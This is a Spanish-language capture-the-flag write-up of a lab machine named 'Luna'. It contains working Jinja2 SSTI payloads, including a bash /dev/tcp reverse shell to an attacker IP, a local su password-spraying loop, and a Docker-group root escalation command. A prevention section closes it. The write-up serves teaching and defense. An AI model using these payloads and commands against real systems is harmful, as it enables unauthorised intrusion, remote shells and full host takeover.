







# 🌙 Luna: Writeup Técnico Completo


El objetivo de esta máquina fue realizar un encadenamiento de vulnerabilidades que abarcó desde una inyección de plantillas hasta una escalada de privilegios basada en el abuso de contenedores.

## 🔍 Fase 1: Reconocimiento. Escaneando el entorno.

Antes de cualquier intento de intrusión, es fundamental realizar un reconocimiento exhaustivo para entender la superficie de ataque y los servicios expuestos. No debemos omitir ningún detalle técnico, por lo que realizamos un escaneo completo de los 65535 puertos TCP.

**Comando de escaneo:**


```bash
nmap --stats-every=5s -p 0-65535 --open --min-rate=5000 -T5 -A -sT -Pn -n -v 192.168.1.11 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html
```

- **Análisis técnico:**
    
    - `--min-rate=5000` y `-T5`: Configuramos un escaneo agresivo para optimizar el tiempo, asumiendo una conexión estable con el objetivo.
        
    - `-A`: Activamos la detección de versiones, detección de sistema operativo y los scripts por defecto de Nmap.
        
    - `-oX nmap_TCP.xml && xsltproc...`: Generamos un archivo XML para procesarlo posteriormente con `xsltproc` y obtener un reporte en formato HTML, el cual permite una visualización tabular mucho más limpia de los servicios detectados.
        

**Hallazgos:** El escaneo reveló dos servicios principales ejecutándose en el sistema:

1. **Puerto 80 (Apache 2.4.58):** Servicio web estándar que devolvía un código de estado `403 Forbidden`, indicando que el acceso al directorio raíz estaba restringido.
    
2. **Puerto 5000 (Werkzeug httpd 3.0.3, Python 3.12.3):** Un servicio web basado en Python que alojaba una aplicación denominada "RodGar". Este fue nuestro punto de entrada principal.
    



## 💻 Fase 2: Intrusión. SSTI (Server-Side Template Injection).

Al acceder a la aplicación en el puerto 5000, nos encontramos ante una interfaz minimalista con un campo de texto deshabilitado. Como atacantes, nuestra primera premisa es nunca dar por sentado que los controles de la interfaz son seguros.

**1. Manipulación del DOM:** Al inspeccionar el código fuente (`F12`), identifiqué que el campo de entrada tenía el atributo `disabled`. Simplemente modifiqué este valor por `enabled` en el inspector del navegador, lo que habilitó el campo de entrada y me permitió interactuar con el backend de la aplicación.




**2. Verificación de la vulnerabilidad:** Para confirmar si la aplicación estaba procesando plantillas de forma insegura, inyecté una operación aritmética básica en el campo habilitado: `{{7*7}}`. El servidor respondió con `49`, confirmando que el motor de plantillas (Jinja2) estaba interpretando código arbitrario.


**3. Ejecución de código (RCE):** Una vez confirmada la inyección, busqué el formato de _payload_ óptimo consultando la documentación técnica de [PayloadsAllTheThings (Jinja2)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2). El payload seleccionado fue:


```bash
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```


- **Explicación técnica:** El motor Jinja2 permite el acceso a objetos internos de Python a través de las plantillas. Al utilizar el objeto `cycler` y navegar por su estructura hasta `__globals__`, logramos escapar del _sandbox_ de la plantilla e importar el módulo `os`. Con `popen('id')`, el servidor ejecuta el comando del sistema operativo y, mediante `.read()`, nos devuelve el resultado (en este caso, la confirmación de nuestro UID como `www-data`).

**4. Obtención de la Reverse Shell:** Tras confirmar que podía ejecutar código, preparé mi máquina atacante con un `nc -lvnp 4444` para escuchar la conexión entrante. Luego, inyecté el payload necesario para entablar la _reverse shell_:


```bash
{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.X/4444 0>&1"').read() }}
```

- **Explicación técnica:**

    - `bash -i >& /dev/tcp/IP/PUERTO 0>&1`: Este comando crea un descriptor de archivo que redirige la entrada y salida estándar (`stdin`, `stdout`, `stderr`) hacia una conexión TCP abierta hacia mi máquina atacante.

    - `os.popen(...)`: Utilizamos nuevamente el módulo `os` para ejecutar esta cadena completa en un entorno de shell, transformando una inyección aislada en una sesión interactiva completa.


Con esto, pasé de una simple ejecución de comandos de un solo disparo a una sesión de terminal completa como usuario `www-data`, lo que me permitió explorar el sistema de archivos con total libertad.

## 🔑 Fase 3: Post-Explotación y Escalada Lateral.

Una vez consolidada la persistencia mediante la _reverse shell_ como `www-data`, el siguiente paso crítico es realizar una **enumeración consciente** del sistema. Mi objetivo no es solo explorar, sino buscar puntos de pivote hacia otros usuarios.

### 1. Hallazgo de credenciales en `config.php`

Navegando por el directorio `/var/www/RODGAR/`, localicé el archivo `config.php`. Este es un componente vital para la aplicación, ya que gestiona la conexión con la base de datos. Al examinarlo, obtuve credenciales en texto plano:


```PHP
$username = "admin";
$password = "sporting";
$dbname = "rodgar";
```

### 2. Intrusión en la Base de Datos

Con estas credenciales, accedí al servicio MySQL mediante `mysql -u admin -p`. Una vez dentro, ejecuté una consulta para listar las tablas de la base de datos `rodgar`, identificando una tabla denominada `user`. Al hacer un `SELECT * FROM user;`, encontré el siguiente hash: `YzBvW1VrbU0yTVRSVGU4QGpOLk0oOWIK`.



### 3. Decodificación y acceso a `juan`

Para obtener la contraseña real, utilicé **CyberChef**. Al aplicar la receta "From Base64", la cadena se convirtió en texto plano, revelando la clave que me permitió escalar lateralmente al usuario `juan` mediante el comando `su juan`.



Antes de lanzar el script de fuerza bruta, identifiqué la existencia de los usuarios `jose`, `john` y `carmen` mediante la **enumeración de archivos en el sistema**.

1. **Enumeración del directorio `/home/`:** Como usuario `juan`, mi primera acción tras escalar privilegios fue listar el contenido del directorio `/home/`. Este es un paso fundamental, ya que en sistemas Linux multiusuario, cada cuenta personal reside ahí.


```bash
ls -l /home/
```

- **Resultado:** La salida mostró claramente los directorios `carmen`, `john`, `jose` y `juan`. Esto me confirmó que, además del usuario actual, existían otros tres objetivos potenciales en el sistema sobre los cuales aplicar técnicas de _Password Spraying_.

2. **Validación de existencia:** Para verificar que eran usuarios válidos (y no solo directorios huérfanos), consulté el archivo `/etc/passwd`:


```bash
grep -E "jose|john|carmen" /etc/passwd
```

- **Análisis:** Al ver que los usuarios tenían un _shell_ válido (como `/bin/bash`), confirmé que eran cuentas activas y vectores de ataque legítimos para intentar la autenticación local mediante el script de fuerza bruta.


### 4. Búsqueda de `password.txt` y Fuerza Bruta Local

Ya en el directorio de `juan` (`/home/juan/`), realicé un `ls -la`. Allí encontré un archivo inusual llamado `password.txt`. Al visualizar su contenido, confirmé que era una lista de contraseñas. Este hallazgo es un error de configuración crítico que permitía realizar un ataque de **Password Spraying**.

Como el servicio SSH no estaba expuesto, desarrollé un script en Bash para automatizar la prueba de estas contraseñas contra otros usuarios locales (`jose`, `john`, `carmen`) utilizando la utilidad del sistema `su`:


```bash
for user in jose john carmen; do
    for pass in $(cat password.txt); do
        echo "$pass" | timeout 1s su -c "whoami" $user > /dev/null 2>&1
        if [ $? -eq 0 ]; then
            echo "[+] ¡ÉXITO! Usuario: $user | Password: $pass"
        fi
    done
done
```

- **Explicación técnica:** El script utiliza un bucle anidado. `timeout 1s` es vital para evitar que el script se quede colgado si un intento de autenticación tarda demasiado. Al redirigir la salida a `/dev/null 2>&1`, eliminamos el "ruido" de los errores de autenticación, permitiéndonos ver únicamente las combinaciones exitosas.




## 🐳 Fase 4: Escalada a Root. El poder de Docker.

Una vez que obtuve acceso al usuario `jose`, mi primera acción fue enumerar sus permisos de sistema. Al ejecutar `id`, descubrí que el usuario formaba parte del grupo `docker` (GID 111).

### 1. El riesgo del grupo `docker`

Pertenecer al grupo `docker` es, a efectos prácticos, una escalada de privilegios garantizada. Esto se debe a que dicho grupo tiene permisos para interactuar con el _socket_ de Docker (`/var/run/docker.sock`), permitiendo al usuario manipular contenedores y, más importante aún, montar volúmenes arbitrarios del sistema host.

### 2. Explotación: Montaje de volumen y `chroot`

Para escalar, el objetivo es montar el sistema de archivos raíz del host (`/`) dentro de un contenedor, de modo que podamos navegar por todo el disco duro como si estuviéramos en la terminal del host.

Ejecuté el siguiente comando:


```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt
```

- **Explicación técnica detallada:**
    
    - `docker run`: Lanza un nuevo contenedor.
        
    - `-v /:/mnt`: Esta es la clave. Utilizamos un _bind mount_ para mapear la raíz del host (`/`) dentro de la carpeta `/mnt` del contenedor. Si un archivo existe en `/etc/shadow` del host, ahora será accesible en el contenedor a través de `/mnt/etc/shadow`.
        
    - `--rm`: Una buena práctica para mantener el sistema limpio; elimina el contenedor automáticamente al salir.
        
    - `-it`: Proporciona una terminal interactiva para manipular el contenedor.
        
    - `alpine`: La imagen ligera que descargamos para realizar la operación.
        
    - `chroot /mnt`: Cambia la raíz del proceso al directorio `/mnt`. Al cambiar la raíz, el contenedor deja de ver su propio sistema de archivos y pasa a operar directamente sobre el sistema de archivos del host como usuario `root`.
        



Al ejecutar esto, el _prompt_ cambió, indicándome que ahora operaba con privilegios de `root`.

## 👑 Fase 5: El asalto final.

Una vez que logré escapar de la jaula del contenedor y me posicioné como `root` sobre el sistema de archivos del host, mi objetivo final fue extraer las evidencias del compromiso: las _flags_.

Para optimizar el proceso, ejecuté un comando único que concatena la lectura de ambos archivos críticos. Esto demuestra el acceso de lectura total sobre todo el sistema:


```bash
cat /home/juan/user.txt && cat /root/root.txt
```

- **Explicación técnica:** El operador `&&` es un operador de control lógico. Indica al sistema que ejecute el segundo comando (`cat /root/root.txt`) solo si el primero (`cat /home/juan/user.txt`) se completó exitosamente (código de salida 0). Al usar esta concatenación, verifiqué instantáneamente que ambos archivos eran accesibles y extraje su contenido de forma sincronizada.



### Análisis de la intrusión

Esta acción cierra el ciclo de ataque. Hemos documentado cada etapa:

1. **Reconocimiento:** Identificación precisa de servicios.

2. **Intrusión (RCE):** Aprovechamiento de una vulnerabilidad de motor de plantillas (SSTI).

3. **Escalada Lateral:** Uso de credenciales exfiltradas de bases de datos y fuerza bruta automatizada.

4. **Escalada de Privilegios:** Abuso del socket de Docker para un _breakout_ del contenedor.


Con este paso, la máquina **Luna** está formalmente comprometida en todas sus capas. 🛡️

## 🛡️ Fase 6: ¿Cómo prevenir estos problemas?


### 1. Contra el SSTI (Inyección de Plantillas)

- **Sanitización y Validación:** Nunca proceses entradas de usuario directamente en un motor de plantillas como Jinja2. Implementa filtros estrictos que rechacen caracteres especiales (`{`, `}`, `_`, `[`, `]`).

- **Sandboxing:** Si la funcionalidad requiere plantillas dinámicas, utiliza entornos aislados (como `SandboxedEnvironment` en Jinja2) que limiten el acceso a objetos internos de Python como `__globals__` o `__init__`.

- **Privilegio Mínimo:** La aplicación web debe ejecutarse con una cuenta de servicio sin privilegios (`www-data` con limitaciones de `nologin` y sin acceso a directorios del sistema fuera de `/var/www/`).


### 2. Gestión de Credenciales y Base de Datos

- **Almacenamiento Seguro:** Prohibido dejar archivos como `config.php` con credenciales en texto plano. Utiliza **Variables de Entorno** (`ENV`) o sistemas de gestión de secretos (HashiCorp Vault, AWS Secrets Manager).

- **Hashes Fuertes:** Los hashes de las contraseñas en la base de datos deben utilizar algoritmos resistentes a ataques de fuerza bruta como `Argon2` o `bcrypt`, asegurando que no sean fácilmente reversibles incluso si hay una brecha de datos.


### 3. Seguridad en Entornos Docker

- **Acceso al Socket:** El socket `/var/run/docker.sock` es equivalente a la llave maestra del servidor. **Nunca** añadas usuarios al grupo `docker` a menos que sean administradores de sistemas de confianza.

- **Contenedores no privilegiados:** Ejecuta contenedores con el flag `--user` (o el equivalente en el Dockerfile) para asegurar que el proceso principal dentro del contenedor no sea `root`.

- **Docker Breakout:** Implementa políticas de `AppArmor` o `SELinux` para restringir qué capacidades (`capabilities`) tiene el contenedor, evitando que pueda montar volúmenes críticos del sistema host.


### 4. Cultura de Seguridad Organizacional

- **Gestión de contraseñas:** El uso de listas como `password.txt` es una vulnerabilidad de cultura de seguridad. Implementar políticas de contraseñas únicas y fomentar el uso de gestores de contraseñas (`Passbolt`, `Bitwarden`) previene ataques de _Password Spraying_ como el que utilizamos contra `jose`.